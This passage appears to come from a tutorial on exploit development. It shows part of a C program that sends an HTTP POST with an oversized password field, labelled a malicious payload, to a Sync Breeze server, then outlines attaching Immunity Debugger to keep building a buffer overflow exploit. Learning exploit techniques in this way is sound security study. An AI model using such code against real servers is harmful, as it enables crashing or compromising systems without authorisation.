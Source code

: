 ```c
        "Connection: keep-alive\r\n"
        "Referer: http://%s/login\r\n"
        "Upgrade-Insecure-Requests: 1\r\n"
        "\r\n"
        "%s",
        SERVER_IP, strlen(payload), SERVER_IP, SERVER_IP, payload);
    
    printf("[*] Sending malicious payload ...\n");
    
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("Erro ao criar socket");
        return 1;
    }
    
    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    if (inet_pton(AF_INET, SERVER_IP, &server.sin_addr) <= 0) {
        perror("Endereço inválido");
        close(sock);
        return 1;
    }
    
    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        perror("Erro ao conectar ao servidor");
        close(sock);
        return 1;
    }
    
    if (send(sock, request, strlen(request), 0) < 0) {
        perror("Erro ao enviar dados");
        close(sock);
        return 1;
    }
    
    int bytes_received = recv(sock, buffer, sizeof(buffer) - 1, 0);
    if (bytes_received > 0) {
        buffer[bytes_received] = '\0';
        printf("Resposta:\n%s\n", buffer);
    } else {
        perror("Erro ao receber resposta");
    }
    
    close(sock);
    return 0;
}
```
Our exploit sends a POST request in the password field, creating a buffer with 600 ‘A’ characters. The goal of this exploit is to test the server’s robustness when handling long inputs and to identify potential security issues.

Based on the response, we’ll start building our exploit. To continue developing it, we now need to use Immunity Debugger to attach to the Sync Breeze application and analyze its behavior in real time, giving us more control over the execution flow.
